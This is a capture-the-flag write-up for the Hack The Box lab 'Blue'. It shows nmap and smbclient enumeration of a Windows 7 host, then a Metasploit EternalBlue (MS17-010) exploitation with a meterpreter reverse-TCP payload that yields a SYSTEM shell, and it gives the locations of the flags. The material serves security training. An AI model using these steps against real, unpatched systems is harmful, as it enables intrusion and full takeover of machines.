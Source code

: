 ## Blue

### Lab Details 

- Difficulty: Easy
- Type: SMB, Windows

#### Tasks
Q1: How many open TCP ports are listening on Blue? Don't include any 5-digit ports.
- run nmap `nmap -sT -T4 -vv -A -p- -oA Blue 10.10.10.40`  
- 3 ports
```
<snip>
PORT      STATE    SERVICE       REASON      VERSION
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds  syn-ack     Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
<snip>
```

Q2: What is the hostname of Blue?
- as part of output from nmap 
```
<snip>
Host script results:
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
<snip>
``` 

Q3: What operating system is running on the target machine? Give a two-word answer with a name and high-level version.
- as part of output from nmap
```
<snip>
 |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
<snip>

Q4: How many SMB shares are available on Blue?
- enum SMB share using `smbclient`
```
$: smbclient -L 10.10.10.40
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk
        Users           Disk
```

Q5: What 2017 Microsoft Security Bulletin number describes a remote code execution vulnerability in SMB?
- search for the exploit by using `searchsploit`
```
$: searchsploit smb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
<snip>
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                          | windows/remote/42031.py
<snip>
```
 

Q6: Optional question: A worm was set loose on the internet in May 2017 propagating primarily through MS17-010. What is the famous name for that malware?
- searching `worm ms17-010` on return a wiki page on EternalBlue and it mentions a worm called WannaCry

Q7: What user do you get execution with when exploiting MS17-010? Include the full name, including anything before a .
- exploit the vulnerability using msfconsole (windows/smb/ms17_010_eternalblue) module
- example below
```
msf6 > search blue

Matching Modules
================
<snip>
   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   13  exploit/windows/smb/ms17_010_eternalblue                    2017-03-14       average    Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   14  exploit/windows/smb/ms17_010_psexec                         2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
<snip>
msf6 > use 13
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.161    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
rhost => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.27
lhost => 10.10.14.27
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```


Q8: Submit the flag located on the haris user's desktop. 
- after running the exploit will give us a shell as NT authority\System (highest access on target)
- user.txt is locate at C:\Users\haris\Desktop\user.txt
- use `type` to display content

Q9: Submit the flag located on the administrator's desktop.
- root.txt is located at C:\Users\administrator\Desktop\root.txt

#### Lesson Learned
